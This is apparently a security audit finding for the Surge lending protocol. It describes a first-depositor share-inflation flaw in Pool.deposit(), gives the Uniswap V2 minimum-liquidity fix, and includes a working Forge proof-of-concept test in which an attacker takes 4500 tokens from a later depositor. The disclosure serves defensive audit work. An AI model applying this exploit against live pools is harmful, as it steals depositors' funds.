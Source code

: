 Bobface

high

# First depositor can steal funds from subsequent depositors

## Summary
The first pool depositor can deposit a very minimal amount of tokens, such as 1 wei, followed by sending a larger amount of funds directly to the pool contract. If calculated correctly, this results in the attacker being able to withdraw parts of the later depositor's funds.

## Vulnerability Detail
[`Pool.deposit()`](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307) handles user loan token deposits. The method takes the amount of tokens to be deposited as argument `amount` and credits the corresponding amount of shares / LP tokens. In the special case of a deposit being the first deposit, [`tokenToShares()`](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199) will use a different formula for the LP token calculation, and the depositor simply gets the amount of tokens deposited credited as LP tokens, [`shares = tokenAmount`](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L200).

## Impact
A bad actor can abuse this behaviour by depositing a very small amount, such as 1 wei, as the first deposit, and then sending a larger amount of tokens directly to the vault:
1. Deposit 1 wei of token and receive 1 wei of LP token
2. Send 10 full tokens directly to the vault. 1 wei of LP token is now worth 10 full tokens (plus 1 wei)
3. A normal user deposits 19 full tokens, meaning he would receive `19 * 1 / 10 = 1.99999...` wei LP tokens, but the value gets rounded down to `1` wei LP tokens.
4. The attacker withdraws his one wei share, and since there are only two wei total shares, gets half of the 29 tokens deposited: 14.5 tokens, even though he only deposited 10 tokens previously 

This attack would work best in practice by sandwiching a first deposit transaction since the values can be exactly calculated to be the most profitable. 

## Recommendation
Uniswap V2 [solves this problem](https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L119-L121) by a) requiring the initial deposit to have a certain minimum size and b) send the first 1000 wei of LP tokens to the zero address:

```solidity
if (_totalSupply == 0) {
    liquidity = Math.sqrt(amount0.mul(amount1)).sub(MINIMUM_LIQUIDITY);
    _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
}
```

I recommend the same solution in this case. 

## Tool used

Manual Review

## Code Snippet
The PoC is implemented as Forge test. Add the following code as `ExploitShares.t.sol` to `/test` and run it using `forge test -m testExploitShares -vv`. You should see output similar to this:
```bash
Running 1 test for test/ExploitShares.t.sol:ExploitShares
[PASS] testExploitShares() (gas: 6380417)
Logs:
  Bad User: Profit of 4500 tokens
  Good User: Loss of 4500 tokens
```

Code:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";

import "../src/Pool.sol";
import "../src/Factory.sol";

contract ExploitShares is Test {
    function testExploitShares() external {
        // Deploy the loan token
        TestingERC20 loanToken = new TestingERC20();

        // Deploy the factory
        Factory factory = new Factory(address(this), "test");

        // Deploy the pool
        Pool pool = factory.deploySurgePool(
            IERC20(address(0)),
            IERC20(address(loanToken)),
            1,
            1,
            1,
            1,
            1,
            1,
            1
        );

        // Execute bad user's first transaction:
        // - Deposit 1 wei
        // - Directly transfer 9_999 full tokens to the pool
        User badUser = new User(pool, loanToken);
        badUser.deposit(1);
        badUser.directTransfer(9_999 ether);

        // Good user's transaction is executed, depositing 19_000 tokens
        User goodUser = new User(pool, loanToken);
        goodUser.deposit(19_000 ether);

        // Bad user withdraws
        badUser.withdrawAll();

        // Good user withdraws
        goodUser.withdrawAll();

        // Print results
        badUser.print("Bad User");
        goodUser.print("Good User");
    }
}

contract User {
    Pool pool;
    TestingERC20 loanToken;
    uint256 deposited;
    uint256 withdrawn;

    constructor(Pool _pool, TestingERC20 _loanToken) {
        pool = _pool;
        loanToken = _loanToken;
    }

    function deposit(uint256 amount) external {
        loanToken.mint(address(this), amount);
        pool.deposit(amount);
        deposited += amount;
    }

    function withdrawAll() external {
        uint256 balanceBefore = loanToken.balanceOf(address(this));
        pool.withdraw(type(uint256).max);
        withdrawn = loanToken.balanceOf(address(this)) - balanceBefore;
    }

    function directTransfer(uint256 amount) external {
        loanToken.mint(address(this), amount);
        loanToken.transfer(address(pool), amount);
        deposited += amount;
    }

    function print(string memory name) external view {
        if (withdrawn <= deposited) {
            console.log(
                "%s: Loss of %s tokens",
                name,
                (deposited - withdrawn) / 1 ether
            );
        } else {
            console.log(
                "%s: Profit of %s tokens",
                name,
                (withdrawn - deposited) / 1 ether
            );
        }
    }
}

contract TestingERC20 {
    mapping(address => uint256) public balanceOf;

    function mint(address addr, uint256 amount) external {
        balanceOf[addr] += amount;
    }

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public {
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
    }

    function transfer(address to, uint256 amount) external {
        transferFrom(msg.sender, to, amount);
    }
}

```
